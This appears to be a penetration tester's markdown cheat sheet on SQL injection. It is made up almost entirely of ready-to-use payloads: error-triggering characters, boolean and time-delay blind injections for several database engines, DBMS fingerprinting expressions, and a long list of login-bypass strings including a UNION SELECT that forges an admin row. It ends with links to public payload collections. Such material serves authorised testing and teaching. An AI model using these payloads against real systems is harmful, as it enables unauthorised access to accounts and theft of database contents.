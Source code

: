 ```yaml
---
icon: database
---
```


# SQL Injection

## Entry point detection <a href="#entry-point-detection" id="entry-point-detection"></a>

### Error Messages

```plsql
'
%27
"
%22
#
%23
;
%3B
)
```

### Logical Operations

```plsql
1 or 1=1  -- true
1 and 1=2 -- false
```

### Time/Blind

<pre class="language-plsql"><code class="lang-plsql">-- MySQL --
sleep(10)

-- PostgreSQL --
pg_sleep(10)

-- MSSQL --
WAITFOR DELAY '0:0:10'

<strong>-- Oracle --
</strong>[RANDNUM]=DBMS_PIPE.RECEIVE_MESSAGE('[RANDSTR]',[SLEEPTIME])
123=DBMS_PIPE.RECEIVE_MESSAGE('ASD',10)

-- SQLite --
[RANDNUM]=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB([SLEEPTIME]00000000/2))))
123=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(1000000000/2))))
</code></pre>

### DBMS Identification

```javascript
["conv('a',16,2)=conv('a',16,2)"                   ,"MYSQL"],
["connection_id()=connection_id()"                 ,"MYSQL"],
["crc32('MySQL')=crc32('MySQL')"                   ,"MYSQL"],
["BINARY_CHECKSUM(123)=BINARY_CHECKSUM(123)"       ,"MSSQL"],
["@@CONNECTIONS>0"                                 ,"MSSQL"],
["@@CONNECTIONS=@@CONNECTIONS"                     ,"MSSQL"],
["@@CPU_BUSY=@@CPU_BUSY"                           ,"MSSQL"],
["USER_ID(1)=USER_ID(1)"                           ,"MSSQL"],
["ROWNUM=ROWNUM"                                   ,"ORACLE"],
["RAWTOHEX('AB')=RAWTOHEX('AB')"                   ,"ORACLE"],
["LNNVL(0=123)"                                    ,"ORACLE"],
["5::int=5"                                        ,"POSTGRESQL"],
["5::integer=5"                                    ,"POSTGRESQL"],
["pg_client_encoding()=pg_client_encoding()"       ,"POSTGRESQL"],
["get_current_ts_config()=get_current_ts_config()" ,"POSTGRESQL"],
["quote_literal(42.5)=quote_literal(42.5)"         ,"POSTGRESQL"],
["current_database()=current_database()"           ,"POSTGRESQL"],
["sqlite_version()=sqlite_version()"               ,"SQLITE"],
["last_insert_rowid()>1"                           ,"SQLITE"],
["last_insert_rowid()=last_insert_rowid()"         ,"SQLITE"],
["val(cvar(1))=1"                                  ,"MSACCESS"],
["IIF(ATN(2)>0,1,0) BETWEEN 2 AND 0"               ,"MSACCESS"],
["cdbl(1)=cdbl(1)"                                 ,"MSACCESS"],
["1337=1337",   "MSACCESS,SQLITE,POSTGRESQL,ORACLE,MSSQL,MYSQL"],
["'i'='i'",     "MSACCESS,SQLITE,POSTGRESQL,ORACLE,MSSQL,MYSQL"],
```

### Authentication Bypass

```plsql
'-'
' '
'&'
'^'
'*'
' or 1=1 limit 1 -- -+
'="or'
' or ''-'
' or '' '
' or ''&'
' or ''^'
' or ''*'
'-||0'
"-||0"
"-"
" "
"&"
"^"
"*"
'--'
"--"
'--' / "--"
" or ""-"
" or "" "
" or ""&"
" or ""^"
" or ""*"
or true--
" or true--
' or true--
") or true--
') or true--
' or 'x'='x
') or ('x')=('x
')) or (('x'))=(('x
" or "x"="x
") or ("x")=("x
")) or (("x"))=(("x
or 2 like 2
or 1=1
or 1=1--
or 1=1#
or 1=1/*
admin' --
admin' -- -
admin' #
admin'/*
admin' or '2' LIKE '1
admin' or 2 LIKE 2--
admin' or 2 LIKE 2#
admin') or 2 LIKE 2#
admin') or 2 LIKE 2--
admin') or ('2' LIKE '2
admin') or ('2' LIKE '2'#
admin') or ('2' LIKE '2'/*
admin' or '1'='1
admin' or '1'='1'--
admin' or '1'='1'#
admin' or '1'='1'/*
admin'or 1=1 or ''='
admin' or 1=1
admin' or 1=1--
admin' or 1=1#
admin' or 1=1/*
admin') or ('1'='1
admin') or ('1'='1'--
admin') or ('1'='1'#
admin') or ('1'='1'/*
admin') or '1'='1
admin') or '1'='1'--
admin') or '1'='1'#
admin') or '1'='1'/*
1234 ' AND 1=0 UNION ALL SELECT 'admin', '81dc9bdb52d04dc20036dbd8313ed055
admin" --
admin';-- azer 
admin" #
admin"/*
admin" or "1"="1
admin" or "1"="1"--
admin" or "1"="1"#
admin" or "1"="1"/*
admin"or 1=1 or ""="
admin" or 1=1
admin" or 1=1--
admin" or 1=1#
admin" or 1=1/*
admin") or ("1"="1
admin") or ("1"="1"--
admin") or ("1"="1"#
admin") or ("1"="1"/*
admin") or "1"="1
admin") or "1"="1"--
admin") or "1"="1"#
admin") or "1"="1"/*
1234 " AND 1=0 UNION ALL SELECT "admin", "81dc9bdb52d04dc20036dbd8313ed055
```

## Cheatsheets

* **MySQL**
  * [**https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md**](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md)
  * [**https://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet**](https://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet)
* **Oracle**
  * [**https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/OracleSQL%20Injection.md**](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/OracleSQL%20Injection.md)
  * [**https://pentestmonkey.net/cheat-sheet/sql-injection/oracle-sql-injection-cheat-sheet**](https://pentestmonkey.net/cheat-sheet/sql-injection/oracle-sql-injection-cheat-sheet)
* **PostgreSQL**
  * [**https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md**](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md)
  * [**https://pentestmonkey.net/cheat-sheet/sql-injection/postgres-sql-injection-cheat-sheet**](https://pentestmonkey.net/cheat-sheet/sql-injection/postgres-sql-injection-cheat-sheet)
* **MSSQL**
  * [**https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MSSQL%20Injection.md**](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MSSQL%20Injection.md)
  * [**https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet**](https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet)
* **Other DBMSs**
  * [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#cheatsheets](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#cheatsheets)
  * [https://pentestmonkey.net/category/cheat-sheet/sql-injection](https://pentestmonkey.net/category/cheat-sheet/sql-injection)

## References

[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)\
[https://book.hacktricks.xyz/pentesting-web/sql-injection](https://book.hacktricks.xyz/pentesting-web/sql-injection)\
[https://pentestmonkey.net/category/cheat-sheet/sql-injection](https://pentestmonkey.net/category/cheat-sheet/sql-injection)

